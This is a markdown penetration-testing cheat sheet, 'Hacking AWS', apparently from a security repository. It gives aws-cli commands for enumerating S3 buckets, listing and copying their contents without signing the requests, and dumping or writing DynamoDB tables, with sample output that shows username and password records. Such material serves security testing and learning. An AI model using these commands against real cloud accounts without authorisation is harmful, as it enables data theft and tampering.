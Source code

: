 ```yaml
---
title: Hacking AWS
category: Other
order: 1
---
```


Amazon Web Services is a subsidiary of Amazon providing on-demand cloud computing platforms and APIs.

# S3 Buckets

Amazon S3 has a simple web services interface that you can use to store and retrieve any amount of data, at any time, from anywhere on the web.

## AWS Configuration

You can get your credential here [https://console.aws.amazon.com/iam/home?#/security\_credential](https://console.aws.amazon.com/iam/home?#/security\_credential) but you need an aws account, free tier account : [https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free\_np/](https://aws.amazon.com/s/dm/optimization/server-side-test/free-tier/free\_np/)

```
aws configure --profile <PROFILE_NAME>
AWSAccessKeyId= <AccessKeyID>
AWSSecretKey= <SecretKey>
Default Region Name= <Region>
Default Output Format = <json or text>
```

Or you can configure by default:

```
aws configure
```

## Search for S3 Buckets

We need to identify if the service running is a s3.

```
http://s3.amazonaws.com/[bucket_name]/
http://[bucket_name].s3.amazonaws.com/
```

You can get the region of a bucket with a dig and nslookup:

```
$ dig flaws.cloud
;; ANSWER SECTION:
flaws.cloud.    5    IN    A    52.218.192.11

$ nslookup 52.218.192.11
Non-authoritative answer:
11.192.218.52.in-addr.arpa name = s3-website-us-west-2.amazonaws.com.
```

## Enumeration

We will use `aws-cli` tool

* Use `--no-sign-request` for check Everyones permissions
* Use `--profile <PROFILE_NAME>` to indicate the previous configuration profile.

### Search Buckets inside the same host:

```
aws s3 ls --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

### List content of a bucket:

```
aws s3 ls s3://BUCKET-NAME --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

### Copy content:

```
aws s3 cp /tmp/FILE s3://BUCKET-NAME --endpoint-url http://s3.DOMAIN.COM/ --no-sign-request
```

# DynamoDB

Amazon DynamoDB is a key-value and document database that delivers single-digit millisecond performance at any scale. It's a fully managed, multi-region, multi-active, durable database with built-in security, backup and restore, and in-memory caching for internet-scale applications.

## List tables

```
aws dynamodb list-tables --endpoint-url http://s3.DOMAIN.COM/
{
    "TableNames": [
        "TABLENAME"
    ]
}
```

## Get Table Content

```
aws dynamodb scan --table-name TABLENAME --endpoint-url http://s3.DOMAIN.COM/
{
    "Items": [
        {
            "password": {
                "S": "PWD@#1@#"
            },
            "username": {
                "S": "USER3"
            }
        },
        {
            "password": {
                "S": "PWD!"
            },
            "username": {
                "S": "USER2"
            }
        },
        {
            "password": {
                "S": "PWD"
            },
            "username": {
                "S": "USER1"
            }
        }
    ],
    "Count": 3,
    "ScannedCount": 3,
    "ConsumedCapacity": null
}
```

## Create Table

```
aws dynamodb create-table --table-name TABLENAME--attribute-definitions AttributeName=title,AttributeType=S AttributeName=data,AttributeType=S --key-schema AttributeName=title,KeyType=HASH AttributeName=data,KeyType=RANGE --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 --endpoint-url http://s3.DOMAIN.COM/
```

## Create Item

```
aws dynamodb update-item --table-name TABLENAME--key file://FILE.json --endpoint-url http://s3.DOMAIN.COM/

# where FILE.json is:

{
    "title": {"S": "TITLECONTENT"},
    "data": {"S": "DATACONTENT"}
}
```
# References

* [https://book.hacktricks.xyz/pentesting/pentesting-web/buckets/aws-s3](https://book.hacktricks.xyz/pentesting/pentesting-web/buckets/aws-s3)
* [https://docs.aws.amazon.com/cli/latest/reference/dynamodb/index.html](https://docs.aws.amazon.com/cli/latest/reference/dynamodb/index.html)
